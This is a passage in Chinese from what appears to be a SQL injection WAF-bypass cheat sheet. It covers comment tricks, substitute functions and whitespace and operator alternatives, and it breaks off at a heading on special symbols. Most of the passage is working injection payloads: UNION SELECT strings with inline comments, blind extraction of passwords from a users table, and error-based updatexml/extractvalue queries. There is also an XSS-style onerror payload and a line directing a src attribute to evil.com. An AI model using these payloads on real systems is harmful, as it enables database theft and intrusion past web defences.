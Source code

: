 4. 使用注释

	在攻击字符串中插入注释。例如，/*!SELECT*/ 这样WAF可能就会忽略该字符串，但它仍会被传递给目标应用程序并交由mysql数据库处理。/**/在构造的查询语句中插入注释规避对空格的依赖或关键字识别。

		常见的注释符号：//, — , /**/, #, –+,–  -, ;–a
		index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4 //普通注释绕过过滤空格、tab等
		'union%a0select pass from users#  //%0b,%10等换行符
		index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3 //内联
		?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4 //内联版本       //50000表示假如 数据库版本是5.00.00以上版本时，执行内联注释内的语句

5. 某些函数或命令，因为WAF的过滤机制导致我们无法使用。那么，我们也可以尝试用一些等价函数来替代它们。

	+ 函数或变量
	
			hex()、bin() ==> ascii()   
			sleep() ==>benchmark()   
			concat_ws()==>group_concat() 
			substr((select 'password'),1,1) = 0x70   
			strcmp(left('password',1), 0x69) = 1   
			strcmp(left('password',1), 0x70) = 0   
			strcmp(left('password',1), 0x71) = -1 
			mid()、substr() ==> substring()  
			@@user ==> user()  
			@@datadir ==> datadir() 

			举例：
		
				substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74
				或者：substr((select 'password'),1,1) = 0x70
				strcmp(left('password',1), 0x69) = 1
				strcmp(left('password',1), 0x70) = 0
				strcmp(left('password',1), 0x71) = -1
			上述这几个示例用于说明有时候当某个函数不能使用时，还可以找到其他的函数替代其实现，置于select、uinon、where等
				关键字被限制如何处理将在后面filter部分讨论

	+ 符号

			1. and和or有可能不能使用，或者可以试下&&和||能不能用；还有=不能使用的情况，可以考虑尝试<、>，因为如果不小于又不大于，那边是等于了
			
			2. 在看一下用得多的空格，可以使用如下符号表示其作用：%20 %09 %0a %0b %0c %0d %a0 /**/ \t

	+ 生僻函数（updatexml（,select语句）、extractvalue（，）、floor()、NAME_CONST(适用于低版本)）

			MySQL/PostgreSQL支持XML函数：Select UpdateXML(‘<script x=_></script>’,’/script/@x/’,’src=//evil.com’);

			?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1))
			SELECT xmlelement(name img,xmlattributes(1as src,'a\l\x65rt(1)'as \117n\x65rror)); //
			
			postgresql
			?id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));
			MySQL、PostgreSQL、Oracle它们都有许多自己的函数，基于黑名单的filter要想涵盖这么多东西从实际上来说不太可
			能，而且代价太大，看来黑名单技术到一定程度便遇到了限制

6. 使用特殊符号
	这里我把非字母数字的字符都规在了特殊符号一类，特殊符号有特殊的含义和用法。
